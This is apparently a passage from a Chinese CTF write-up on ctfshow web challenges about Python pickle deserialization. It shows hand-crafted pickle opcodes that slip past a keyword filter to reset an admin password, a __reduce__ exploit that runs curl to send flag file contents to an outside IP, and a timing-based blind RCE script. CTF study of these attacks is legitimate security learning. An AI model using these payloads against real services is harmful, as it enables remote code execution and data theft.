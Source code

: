 `secret`我们利用十六进制绕过`\\x73ecret`

```
capp
admin
(S'\\x73ecret'
S'1'
db.
```

我们base64加密，直接传进去，成功修改admin密码为1，然后登录

也可以下面这个：利用unicode字符绕过secret

```
c__main__
admin
p0
(dp1
Vsecre\u0074
p2
S'1'
p3
sb.
```

###  ctfshow web277

![image-20220808094856295](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220808094856295.png)

比较直接，直接利用reduce构造

```
#!/usr/bin/env python

import os
import pickle
import base64

class exp(object):
    def __reduce__(self):
        return os.system, ('curl http://42.193.170.176:2345?a=`cat fla*`',)

print(base64.b64encode(pickle.dumps(exp())))
m=base64.b64decode(base64.b64encode(pickle.dumps(exp())))
pickle.loads(m)
```

也可以利用RCE盲注：

```
#!/usr/bin/env python

import os
import pickle
import base64


class RunCmd(object):
    def __reduce__(self):
        return os.system, ('if [ `cut -c 1 ./flag` = 'f' ];then sleep 4;fi',)


print(base64.b64encode(pickle.dumps(RunCmd())))

```
